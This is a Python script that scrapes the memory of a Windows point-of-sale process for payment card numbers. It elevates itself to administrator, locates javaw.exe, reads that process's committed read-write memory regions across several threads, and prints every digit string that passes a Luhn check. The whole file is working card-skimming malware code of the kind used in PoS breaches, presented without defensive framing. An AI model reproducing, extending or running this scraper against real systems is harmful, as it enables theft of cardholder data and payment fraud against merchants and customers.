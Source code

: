 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Credit card pattern using regex (adjust for specific PoS system)
cc_regex = re.compile(r'\b(?:\d[ -]*?){13,19}\b')

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    matches = cc_regex.findall(memory_chunk)
    valid_cards = []
    for match in matches:
        sanitized = re.sub(r'[^\d]', '', match)  # Remove non-numeric characters
        if validate_luhn(sanitized):  # Only return valid Luhn credit cards
            valid_cards.append(sanitized)
    return valid_cards

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while not memory_queue.empty():
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1'))
                if valid_cards:
                    print(f"Found valid card(s) at address {base_addr}: {valid_cards}")
        except Exception as e:
            # Handle exceptions (e.g., access violations, decoding errors)
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    # Get memory regions
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    # Add regions to queue
    for region in memory_regions:
        memory_queue.put(region)

    # Open process for reading
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    # Create and start worker threads
    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.start()
        threads.append(t)

    # Wait for the queue to be processed
    memory_queue.join()

    # Clean up threads and process handle
    for t in threads:
        t.join()
    ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    """
    Check if the script is running with administrative privileges.
    """
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    # Ensure the script is running as admin
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    # Get PID of javaw.exe (adjust based on target PoS process)
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
